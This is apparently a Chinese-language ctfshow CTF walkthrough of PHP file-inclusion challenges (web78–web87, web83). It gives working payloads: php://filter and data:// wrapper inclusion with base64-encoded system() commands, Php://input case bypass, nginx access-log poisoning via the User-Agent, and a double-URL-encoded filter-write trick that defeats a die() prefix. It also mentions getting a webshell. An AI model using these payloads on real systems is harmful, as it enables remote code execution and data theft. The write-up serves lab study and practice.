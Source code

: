 ## ctfshow- 文件包含

[TOC]

### web78

无限制：

```python
#1
?file=php://filter/read=convert.base64-encode/resource=flag.php
#2
?file=data://text/plain,<?php system('ls');?> 
?file=data://text/plain,<?php system('tac flag.php');?>
#3
php://input#用不了好像
```


```
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0xNiAxMDo1NToxMQ0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMTYgMTA6NTU6MjANCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KDQokZmxhZz0iY3Rmc2hvd3tkYmQzOTRjNC1kZDkxLTQ5MmQtOTJlMi00MTU0ZTZiZmJmZGJ9Ijs=
$flag="ctfshow{dbd394c4-dd91-492d-92e2-4154e6bfbfdb}";
```


### web79

```php
$file = str_replace("php", "???", $file);
```

将php替换了，但是这个默认不忽略大小写，

1. 这里使用data://

```python
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZionKTs/Pg==
# <?php system('tac f*');?>
```

2. 使用input，`hackbar`不行，这里使用bp

```
?file=Php://input
```



### web80

```php
$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
```

这会ban了两个，这可以可以使用上一题的`Php://`

```
?file=Php://input

<?php system("ls");?>
<?php system("tac fl0g.php"); ?>
```

看了一下资料还可以利用日志,先访问这个日志地址，然后使用bp抓包

```
?file=/var/log/nginx/access.log
```
修改UA内容为：
```php
<?php system("ls");?>
<?php system('cat fl0g.php');?>
```
重发送发现回显

![image-20240905131450579](https://gitee.com/bx33661/image/raw/master/path/image-20240905131450579.png)

### web81
这会过滤升级到了三个
```php
$file = str_replace("php", "???", $file);    
$file = str_replace("data", "???", $file);    
$file = str_replace(":", "???", $file);
```
还是采用日志漏洞
> 需要注意的是⚠️
> 在 UA 里改成要执行的 php 命令 一定要一次成功 如果有问题就会 一直报错 只能重开环境，我试了好几次

```python
?file=/var/log/nginx/access.log

#执行命令查询
<?php system('ls');?>   #需要发两次
#执行命令获取flag
<?php system('cat fl0g.php');?>
```
![[Pasted image 20240905145927.png]]
此外我还发现一个问题，若是把命令改为双引号就会报错，就得重开环境不知道怎么回事！！！

### web82
丸辣，时间不对

### web87
丸辣,这会很有难度😭
```php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);    
}    
```
过滤了四个参数，并且使用了`file_put_contents`,并且我们写的话后面的`die()`也不会让我执行

**file内容**-----两次url编码结果如下：
```python
%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%33%32%25%33%33%25%32%65%25%37%30%25%36%38%25%37%30
```

**Pos参数content**：
```python
PD9waHAgc3lzdGVtKCdscycpOw==
#再加上两个aa
aaPD9waHAgc3lzdGVtKCdscycpOw==
```
成功后不会出现任何东西
访问`123.php`

![image-20240905153631565](https://gitee.com/bx33661/image/raw/master/path/image-20240905153631565.png)

我么现在得到flag文件的名称了
重复上面的操作只是将执行命令换了
```Python
content=aaPD9waHAgc3lzdGVtKCdjYXQgZioucGhwJyk7
```

![image-20240905154239736](https://gitee.com/bx33661/image/raw/master/path/image-20240905154239736.png)

> 扩展方法：还可以穿参数的时候穿入getshell，使用蚁剑连接，寻找flag

### web83
```php
 if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){  
        die("error");  
    }
```
这次过滤的真的不少哦，使用data协议
> tips:如果构造命令时，base64 编码出现 “ = ”，可以尝试在后面加空格，避免等号出现。

1. 构造”ls“命令
```python
<?php system('ls');?> 
#PD9waHAgc3lzdGVtKCdscycpOz8+IA==
#不行就添加空格
<?php system('ls ');?> 
#PD9waHAgc3lzdGVtKCdscyAnKTs/PiA=
#不行就添加空格
<?php system('ls  ');?> 
# PD9waHAgc3lzdGVtKCdscyAgJyk7Pz4g
```
构造：
```python
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscyAgJyk7Pz4g
```
![sdsd](https://gitee.com/bx33661/image/raw/master/path/Snipaste_2024-09-05_16-31-42.png)
2. 有了文件名称，我们开始构造获取命令,思路一样
```python
... 省略几个步骤
<?php system('tac fl0g.php ');?>    
#PD9waHAgc3lzdGVtKCd0YWMgZmwwZy5waHAgJyk7Pz4gICAg
```
构造命令
```python
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmwwZy5waHAgJyk7Pz4gICAg
```
![sdsd](https://gitee.com/bx33661/image/raw/master/path/Snipaste_2024-09-05_16-36-57.png)
### web116

